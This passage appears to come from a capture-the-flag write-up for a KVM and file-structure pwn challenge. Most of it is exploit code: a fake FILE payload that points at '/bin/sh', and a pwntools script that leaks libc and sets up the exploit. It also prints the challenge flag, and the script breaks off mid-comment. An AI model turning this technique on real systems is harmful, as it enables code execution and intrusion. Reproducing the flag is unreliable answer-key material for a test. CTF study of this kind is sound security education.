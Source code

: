```py=
file += p64(next(libc.search(b'/bin/sh\x00'))) + p64(0)*6 + p64(0) + p64(0)*2 + p64(BUF) + p64(0xffffffffffffffff) + p64(0)*5 + p64(0x0) + p64(0)*2 + p64(overwrite)
```
* Done

![Screenshot 2024-05-26 155033](https://hackmd.io/_uploads/rJygd_xVA.png)

* Script

```py=
#!/usr/bin/python3
from pwn import *

sla = lambda delim, data: p.sendlineafter(delim, data)
sa = lambda delim, data: p.sendafter(delim, data)
s = lambda data: p.send(data)
sl = lambda data: p.sendline(data)
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()


elf = context.binary = ELF('real-vm')
libc = ELF('libc-2.23.so')

def int_from_bytes(bytes):
    return int.from_bytes(bytes, byteorder='little')


def GDB(proc):
    gdb.attach(p, gdbscript='''
               b *(main + 1948)
               c
               del
               b fclose
               c
               b _IO_file_close_it
               c
               b _IO_setb
               c
               ''')
#L3AK{KVM_4ND_F50P_1N_0N3_CH4113N63_7H15_MU57_B3_4_Dr34M}
p = process()
GDB(p)
ru(b'Comrade : ')
leak = rl()[:-1]
leak = int(leak.decode(), 16)
libc.address = leak - 0x3c48e0
print('leak: ', hex(leak))
print('libc: ', hex(libc.address))
shellcode = shellcraft.write(1, "hihihih", 0x100)
'''
mov qword ptr [0x1000], 0x2003
mov qword ptr [0x2000], 0x3003
mov qword ptr [0x3000], 0x4003
mov qword ptr [0x4000], 0x0003  # set to original base to rip continue
mov qword ptr [0x4008], 0x16003

mov rax, 0x1000
mov cr3, rax
mov rax, 0xdeadbeef
mov qword ptr [0x1000], 0xdead # open file
mov qword ptr [0x1008], 0xdead
mov qword ptr [0x1008], 0xdead
```